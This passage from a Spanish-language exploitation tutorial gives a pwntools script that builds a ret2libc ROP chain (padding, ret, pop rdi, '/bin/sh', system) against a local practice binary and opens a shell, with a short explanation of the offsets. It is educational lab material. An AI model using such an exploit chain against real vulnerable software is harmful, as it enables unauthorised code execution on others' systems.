```
```python
from pwn import *

p = process("./ret2libc") 

libc = 0x7ffff7c00000
pop_rdi = 0x0000000000029835
bin_sh = 0x1bb26a
system = 0x000000000004ba40
ret = 0x0000000000102ea4

payload = b"A" * 72
payload += p64(libc + ret) 
payload += p64(libc + pop_rdi)
payload += p64(libc + bin_sh)
payload += p64(libc + system)

p.sendline(payload)
p.interactive()
```

Se pueden dar cuenta que se esta sumando la direccion de libc con los offsets de pop rdi, bin/sh, system, y ret, esto es para que nos saque la direccion real, tambien usamos "p64" para transformar esas direcciones a little endian de 64 bits, ahora ejecutamos y vemos como obtuvimos una shell

![](/assets/img/ret2libc/pwn.png)

Eso ha sido todo, gracias por leer ❤